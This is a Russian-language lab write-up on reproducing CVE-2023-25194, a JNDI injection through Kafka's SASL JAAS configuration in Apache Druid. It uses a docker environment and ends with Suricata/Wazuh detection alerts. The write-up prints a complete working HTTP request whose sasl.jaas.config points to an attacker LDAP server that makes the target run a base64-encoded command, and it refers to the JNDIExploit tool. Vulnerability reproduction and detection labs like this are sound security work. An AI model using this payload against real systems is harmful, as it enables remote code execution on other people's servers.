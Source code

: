# CVE-2023-25194

Apache Kafka — это платформа с открытым исходным кодом, которая используется для потоковой передачи и обработки данных в реальном времени.

В API Apache Kafka Connect обнаружена возможная уязвимость, для которой требуется доступ к рабочему процессу Kafka Connect и возможность создавать/изменять на нем коннекторы с помощью произвольной конфигурации SASL JAAS клиента Kafka и протокола безопасности на основе SASL, что стало возможным в кластерах Kafka Connect начиная с Apache Kafka Connect 2.3.0. Злоумышленник может вызвать неограниченную десериализацию ненадежных данных или уязвимость RCE, если в пути к классам есть гаджеты.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команду:

```
docker compose up -d
```

После успешного запуска по адресу http://ваш-ip:8888 будет доступна домашняя страница Apache Druid

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Для начала запустите JNDI-сервер с помощью [JNDIExploit](https://github.com/vulhub/JNDIExploit)

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Затем отправьте соответствующий запрос на уязвимый хост:

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: ваш-ip:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1792

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"127.0.0.1:6666",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://jndi-сервер-ip:1389/Basic/Command/base64/aWQgPiAvdG1wL3N1Y2Nlc3MK\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"test",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```

> Здесь "aWQgPiAvdG1wL3N1Y2Nlc3MK" - полезная нагрузка "id > /tmp/success", закодированная в base64
>
>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

После отправки запроса на уязвимом хосте создался файл /tmp/success с выводом результата команды id&#x20;

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

Suricata определила это как эксплуатацию уязвимости CVE-2021-44228 (Log4Shell)

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>
